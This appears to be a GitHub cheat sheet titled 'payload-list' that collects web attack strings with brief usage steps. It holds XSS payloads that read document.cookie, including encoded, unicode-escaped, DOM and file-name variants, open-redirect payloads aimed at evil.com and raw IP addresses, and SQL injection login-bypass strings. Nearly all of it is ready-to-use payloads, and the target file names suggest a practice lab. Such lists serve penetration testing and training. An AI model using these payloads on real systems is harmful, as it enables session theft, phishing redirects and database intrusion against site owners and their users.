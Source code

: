 # payload-list

######################
XXS PAYLOADS
######################
<script>alert(document.URL)</script>

"><<script>alert(document.cookie)</script>

<script>alert(document.URL)</script>yes@gmail.com

"><h1/onmouseover='\u0061lert(document.URL)'>yesspider

"><img src=x onerror=alert(document.cookie)>

"><h1/onmouseover='\u0061lert(document.URL)'>%00

Payload  = <script>alert(document.cookie)</script>



URL encode =  %20%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3c%2f%73%63%72%69%70%74%3e

In file name = “xxs.txt<img src=x onerror=alert(document.cookie)>”



DOM XSS:===

Payload  =  ?name=<img src=x onerror=alert=(document.cookie) >

PUT this payload after the URL and see that it gives you a popup.





################################

OPEN REDIRECT PYALOAD

################################



change the “open_redirect_1.php” to payload

payload = //evil.com


X-Forwarded-Host: evil.com//


Intercept the request and  put  payload after “&url=open_redirect_4_dashboard.php” 

payload = ///evil.com


Intercept the request and  put  payload after “&url=open_redirect_6_dashboard.php” 

payload = @evil.com


Intercept the request and  put  payload after “&url=open_redirect_7_dashboard.php” 

payload = &url=open_redirect_7_dashboard.php@8.8.8.8


Intercept the request and  put  payload after “&url=” 

payload = 66.96.146.129


####################################
SQL INJECION
####################################


'OR''='

' OR '*'='*

")or("1")=("1

'=0--+
